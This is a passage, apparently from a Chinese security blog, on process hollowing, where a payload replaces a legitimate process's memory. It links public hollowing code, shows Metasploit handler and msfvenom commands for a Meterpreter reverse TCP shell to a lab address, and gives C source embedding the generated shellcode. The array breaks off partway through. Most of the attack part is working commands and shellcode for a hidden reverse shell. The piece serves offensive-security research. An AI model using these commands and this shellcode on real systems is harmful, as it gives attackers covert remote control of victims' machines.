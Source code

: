 实现傀儡进程的公开代码有很多，这里给出一个参考地址:

http://code.google.com/p/process-hollowing/downloads/list

该工程的说明文档地址：

http://www.autosectools.com/process-hollowing.pdf

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-1.png)

如果需要查看内存数据，可以使用https://www.adlice.com/runpe-hide-code-behind-legit-process/中使用的工具：Process Hacker

参照上图的输出数据，image base为`0x00B90000`

查看新进程`0x00B90000`的数据，已经被成功替换为payload

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-2.png)

继续下面的测试，参照源代码，修改payload为执行shellcode格式的Meterpreter

server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.81.192
set LPORT 4444
exploit
```

Clinet：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.81.192 LPORT=4444 -f c
```

or

```
use windows/shell/reverse_tcp
set LHOST 192.168.81.192
generate -t c
```

选择stage 1(281 bytes)即可

生成shellcode后，HelloWorld工程实现执行shellcode功能的源代码如下：

```
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR lpCmdLine,int nCmdShow)
{
    unsigned char shellcode1[] =  
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x51\xc0\x68\x02"
        "\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
```